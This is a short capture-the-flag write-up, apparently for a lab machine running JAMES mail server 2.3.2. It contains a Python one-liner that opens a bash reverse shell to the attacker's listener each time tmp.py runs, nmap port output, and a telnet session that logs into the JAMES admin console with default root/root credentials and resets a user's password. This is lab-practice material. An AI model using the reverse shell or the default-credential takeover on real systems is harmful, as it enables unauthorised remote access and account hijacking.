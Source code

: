 ```shell
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.23/443 0>&1"')
```

- This will initiate a reverse shell to my listener every time the `tmp.py` script is run.
- On the attacking machine, I'll run a netcat listener on port 443, to capture any incoming requests.

![](../../Assets/root.png)

# Findings

## Open Ports

```shell title:nmap
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

## SMTP Login (4555)

```shell fold title:smtp
┌──(root㉿9e9bedea3549)-[/host_data]
└─# telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy rootpass
Password for mindy reset
```

# Creds
